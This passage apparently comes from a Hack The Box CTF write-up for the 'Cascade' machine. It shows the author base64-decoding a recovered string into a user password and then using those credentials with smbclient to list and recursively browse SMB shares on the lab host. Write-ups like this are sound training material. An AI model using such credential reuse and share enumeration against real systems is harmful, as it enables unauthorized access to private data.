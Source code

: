 This might be the users password

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# echo -n clk0bjVldmE= | base64 -d
rY4n5eva
```

So back to SMB, I tried login with `r.thompson : rY4n5eva` and I switched on the recursive mode and list all the files.

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# smbclient -L 10.10.10.182 -U 'r.thompson'
Enter WORKGROUP\r.thompson's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Audit$          Disk      
	C$              Disk      Default share
	Data            Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	print$          Disk      Printer Drivers
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
root@kali:~/CTF/HTB/Boxes/Cascade# smbclient //10.10.10.182/Data -U 'r.thompson'
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 27 08:57:34 2020
  ..                                  D        0  Mon Jan 27 08:57:34 2020
  Contractors                         D        0  Mon Jan 13 07:15:11 2020
  Finance                             D        0  Mon Jan 13 07:15:06 2020
  IT                                  D        0  Tue Jan 28 23:34:51 2020
  Production                          D        0  Mon Jan 13 07:15:18 2020
  Temps                               D        0  Mon Jan 13 07:15:15 2020

		13106687 blocks of size 4096. 7793839 blocks available
smb: \> recurse on
smb: \> ls
  .                                   D        0  Mon Jan 27 08:57:34 2020
  ..                                  D        0  Mon Jan 27 08:57:34 2020
  Contractors                         D        0  Mon Jan 13 07:15:11 2020
  Finance                             D        0  Mon Jan 13 07:15:06 2020
  IT                                  D        0  Tue Jan 28 23:34:51 2020
  Production                          D        0  Mon Jan 13 07:15:18 2020
  Temps                               D        0  Mon Jan 13 07:15:15 2020

\Contractors
NT_STATUS_ACCESS_DENIED listing \Contractors\*

\Finance
NT_STATUS_ACCESS_DENIED listing \Finance\*

\IT
  .                                   D        0  Tue Jan 28 23:34:51 2020
  ..                                  D        0  Tue Jan 28 23:34:51 2020
  Email Archives                      D        0  Tue Jan 28 23:30:30 2020
  LogonAudit                          D        0  Tue Jan 28 23:34:40 2020
  Logs                                D        0  Wed Jan 29 06:23:04 2020
  Temp                                D        0  Wed Jan 29 03:36:59 2020

\Production
NT_STATUS_ACCESS_DENIED listing \Production\*

```